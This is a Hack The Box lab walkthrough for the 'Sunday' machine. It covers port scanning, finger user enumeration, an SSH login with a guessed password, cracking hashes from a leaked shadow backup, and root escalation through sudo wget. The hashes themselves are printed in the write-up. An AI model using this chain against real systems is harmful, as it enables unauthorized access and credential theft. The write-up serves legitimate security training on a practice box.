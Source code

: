 # HTB - Sunday

#### Ip: 10.10.10.76
#### Name: Sunday
#### Difficulty: Easy

----------------------------------------------------------------------

![Sunday.png](../assets/sunday_assets/Sunday.png)

### Enumeration

I'll begin enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo nmap -p-  10.10.10.76 --min-rate 10000
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 14:41 CDT
Nmap scan report for 10.10.10.76
Host is up (0.071s latency).
Not shown: 62692 filtered tcp ports (no-response), 2838 closed tcp ports (reset)
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 71.52 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo nmap -sC -sV 10.10.10.76 -p 79,111,515,6787,22022                                       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 14:43 CDT
Nmap scan report for 10.10.10.76
Host is up (0.066s latency).

PORT      STATE SERVICE  VERSION
79/tcp    open  finger?
| finger: Login       Name               TTY         Idle    When    Where\x0D
|_sunny           ???            pts/1          1 Thu 19:43  10.10.14.68         \x0D
| fingerprint-strings: 
|   GenericLines: 
|     Login Name TTY Idle When Where
|     sunny ??? pts/1 Thu 19:43 10.10.14.68
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|_    RTSP/1.0 ???
111/tcp   open  rpcbind  2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  ssl/http Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
| http-title: Solaris Dashboard
|_Requested resource was https://10.10.10.76:6787/solaris/
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=sunday
| Subject Alternative Name: DNS:sunday
| Not valid before: 2021-12-08T19:40:00
|_Not valid after:  2031-12-06T19:40:00
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.33 (Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14
22022/tcp open  ssh      OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
|_  256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)
```

Its interresting that Finger is open on this box. Lets use PentestMonkey's Finger user enumeration tool to see if we can get some usernames here:

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ sudo perl ~/Tools/exploits/finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

Cool, looks like we've got a couple of valid usernames.

![users.png](../assets/sunday_assets/users.png)

### Exploitation

Before trying to bruteforce SSH, I tried just logging in with a username and a couple of basic passwords like root, admin, password, etc. And ended up getting lucky trying sunny:sunday.

```text
┌──(ryan㉿kali)-[~/HTB/Sunday]
└─$ ssh sunny@10.10.10.76 -p 22022
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
ED25519 key fingerprint is SHA256:t3OPHhtGi4xT7FTt3pgi5hSIsfljwBsZAUOPVy8QyXc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (ED25519) to the list of known hosts.
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$ whoami
sunny
sunny@sunday:~$ hostname
sunday
```

From here I can grab the user.txt flag in Sammy's home directory:

![user_flag.png](../assets/sunday_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what we can run with elevated permissions we find an interesting file:

```text
sunny@sunday:/home/sammy$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
sunny@sunday:/home/sammy$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

Unfortunately I'm unable to view or modify the file, but it appears to be printing the id of whoever executes it.

Looking around a bit more I find a folder called `/backup` that contains what appears to be a portion of `/etc/shadow`. Weird. 

```text
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Lets copy this hash back to our attacking box, as well as Sammy's `/etc/passwd` entry, and we can use unshadow and JohnTheRipper to try to crack the hash:

![sammy.png](../assets/sunday_assets/sammy.png)

Cool, lets `su sammy` and see what we can find:

```text
sunny@sunday:/backup$ su sammy
Password: 
sammy@sunday:/backup$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Interesting, looks like we can run wget as root. Heading over to https://gtfobins.github.io/gtfobins/wget/ we find the exact commands we'll need to exploit this:

![gtfo.png](../assets/sunday_assets/gtfo.png)

Lets run those commands and grab the root.txt flag:

![root_flag.png](../assets/sunday_assets/root_flag.png)

Thanks for following along!

-Ryan
